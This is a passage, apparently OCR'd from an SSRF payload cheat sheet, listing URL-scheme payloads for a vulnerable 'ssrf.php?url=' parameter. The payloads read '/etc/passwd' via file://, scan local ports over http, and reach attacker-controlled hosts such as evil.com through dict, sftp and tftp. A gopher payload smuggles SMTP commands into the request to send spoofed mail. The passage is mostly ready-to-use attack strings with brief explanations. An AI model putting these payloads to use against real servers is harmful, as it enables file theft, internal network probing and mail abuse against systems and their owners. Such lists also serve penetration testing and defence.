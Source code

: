 jar:scheme://domain/path!/ 
jar:http://127.0.0.1!/
jar:https://127.0.0.1!/
jar:ftp://127.0.0.1!/
SSRF exploitation via URL Scheme
File
Allows an attacker to fetch the content of a file on the server

file://path/to/file
file:///etc/passwd
file://\/\/etc/passwd
ssrf.php?url=file:///etc/passwd
HTTP
Allows an attacker to fetch any content from the web, it can also be used to scan ports.

ssrf.php?url=http://127.0.0.1:22
ssrf.php?url=http://127.0.0.1:80
ssrf.php?url=http://127.0.0.1:443
SSRF stream

The following URL scheme can be used to probe the network

Dict
The DICT URL scheme is used to refer to definitions or word lists available using the DICT protocol:

dict://<user>;<auth>@<host>:<port>/d:<word>:<database>:<n>
ssrf.php?url=dict://attacker:11111/
SFTP
A network protocol used for secure file transfer over secure shell

ssrf.php?url=sftp://evil.com:11111/
TFTP
Trivial File Transfer Protocol, works over UDP

ssrf.php?url=tftp://evil.com:12346/TESTUDPPACKET
LDAP
Lightweight Directory Access Protocol. It is an application protocol used over an IP network to manage and access the distributed directory information service.

ssrf.php?url=ldap://localhost:11211/%0astats%0aquit
Gopher
ssrf.php?url=gopher://127.0.0.1:25/xHELO%20localhost%250d%250aMAIL%20FROM%3A%3Chacker@site.com%3E%250d%250aRCPT%20TO%3A%3Cvictim@site.com%3E%250d%250aDATA%250d%250aFrom%3A%20%5BHacker%5D%20%3Chacker@site.com%3E%250d%250aTo%3A%20%3Cvictime@site.com%3E%250d%250aDate%3A%20Tue%2C%2015%20Sep%202017%2017%3A20%3A26%20-0400%250d%250aSubject%3A%20AH%20AH%20AH%250d%250a%250d%250aYou%20didn%27t%20say%20the%20magic%20word%20%21%250d%250a%250d%250a%250d%250a.%250d%250aQUIT%250d%250a

will make a request like
HELO localhost
MAIL FROM:<hacker@site.com>
RCPT TO:<victim@site.com>
DATA
From: [Hacker] <hacker@site.com>
To: <victime@site.com>
Date: Tue, 15 Sep 2017 17:20:26 -0400
Subject: Ah Ah AH
